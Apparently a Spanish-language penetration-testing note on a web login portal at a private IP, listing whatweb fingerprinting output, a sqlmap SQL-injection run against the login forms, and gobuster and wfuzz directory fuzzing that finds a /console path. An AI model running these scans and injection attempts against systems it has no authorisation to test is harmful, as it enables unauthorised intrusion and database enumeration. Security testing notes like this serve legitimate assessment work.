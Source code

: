# https://192.168.5.110/

#### Reconocimiento tecnologías web:
*`whatweb https://192.168.5.110/`*

```ruby
https://192.168.5.110/ [200 OK] Bootstrap, 
Cookies[JSESSIONID], 
Country[RESERVED][ZZ], 
HTML5, HttpOnly[JSESSIONID], 
IP[192.168.5.110], 
JQuery[3.6.1], 
Java[2.3], PasswordField[J_PASSWORD,anterior,nueva,nuevarep], Script[module,text/javascript], 
Strict-Transport-Security[max-age=31536000; includeSubDomains], 
Title[HP-HCIS Control d`accés Node:hcis4pre01], UncommonHeaders[content-security-policy-report-only], X-Frame-Options[SAMEORIGIN], X-Powered-By[JSP/2.3], X-XSS-Protection[1; mode=block]

```

*`wapapalyzer`*

![[Pasted image 20250627100447.png]]

#### Login
*Inyección SQL `sqlmap`*
`sqlmap -u https://192.168.5.110/ --forms --dbs --batch`

*Fuzzing `gobuster`*
`gobuster dir -u https://192.168.5.110/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -k`

Hallazgos
- https://192.168.5.110/console  CODE:302

*Fuzzing `wfuzz`*
` wfuzz -c --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "https://192.168.5.110/FUZZ" -t 20`

Hallazgos
- https://192.168.5.110/console  CODE: 302

*Interceptar petición login `burpsuite`*
